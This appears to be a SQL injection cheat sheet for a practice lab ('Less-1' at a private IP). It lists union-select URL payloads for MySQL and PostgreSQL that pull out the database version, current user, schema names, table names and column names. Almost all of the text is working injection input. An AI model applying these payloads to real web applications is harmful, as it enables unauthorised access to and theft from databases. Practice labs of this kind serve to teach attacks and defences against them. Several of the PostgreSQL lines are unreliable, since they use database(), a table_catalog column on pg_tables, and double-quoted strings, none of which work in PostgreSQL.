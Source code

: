 `http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()`

#### Finding database name

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()`

#### Finding usernames logged in

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`

#### Finding databases

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

#### Finding table names from a database

**mysql**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```

**postgres**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"
```

#### Finding column names from a table

**mysql**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

**postgres**

```sql
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"
```
